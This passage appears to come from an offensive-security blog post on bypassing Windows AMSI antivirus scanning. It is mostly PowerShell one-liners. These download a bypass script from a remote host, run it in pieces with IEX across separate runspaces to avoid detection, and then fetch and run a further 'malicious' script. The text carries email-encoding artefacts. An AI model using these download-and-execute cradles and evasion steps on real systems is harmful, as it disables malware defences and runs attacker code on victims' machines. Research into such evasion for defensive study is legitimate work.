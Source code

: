 We end up with this long =E2=80=9C1-liner=E2=80=9D which downloads our AMSI=
 bypass script,
splits it up, and runs each part in separate AMSI sessions but in the same
runspace. Fantastic.

```
$Runspace =3D
[runspacefactory]::CreateRunspace();$Runspace.Open();$PowerShell =3D
[powershell]::Create();$PowerShell.runspace =3D
$Runspace;$PowerShell.AddScript({$full =3D (New-Object
Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full.txt")=
}).Invoke();$PowerShell.Commands.Clear()
;$PowerShell.AddScript({IEX($full.substring(0,591))}).Invoke();$PowerShell.=
Commands.Clear()
;$PowerShell.AddScript({IEX($full.substring(591,60))}).Invoke();$PowerShell=
.Commands.Clear()
;$PowerShell.AddScript({IEX($full.substring(651,126))}).Invoke();
```

### An actual case where we need separate AMSI sessions

#### Intro

In the last section, we responded to a =E2=80=9Cwhat-if=E2=80=9D scenario: =
a case where an
Antivirus actually correlates multiple buffers within one AMSI session.

Let's now look at a scenario where the runspace technique is actually
needed.

We go back to our original AmsiScanBuffer bypass, which ran Rasta Mouse's
script, split in 3 parts (we don't worry about AMSI sessions for now).

```
$full =3D (New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/full.txt"); IEX($full.substring(0,591));
IEX($full.substring(591,60)); IEX($full.substring(651,126))
```

Suppose we want to run a second, malicious script, that on its own gets
caught by AMSI. We will run it after our bypass, on the same prompt. For
our purposes, malicious.txt will just contain the very malicious
blacklisted string 'amsiutils' (with the single quotes). We add a download
cradle for malicious.txt.

```
$full =3D (New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/full.txt"); IEX($full.substring(0,591));
IEX($full.substring(591,60)); IEX($full.substring(651,126)); (New-Object
Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/malicious.txt")|IEX
```

It works.

![image14.png]({{site.baseurl}}/_posts/images/image14.png)
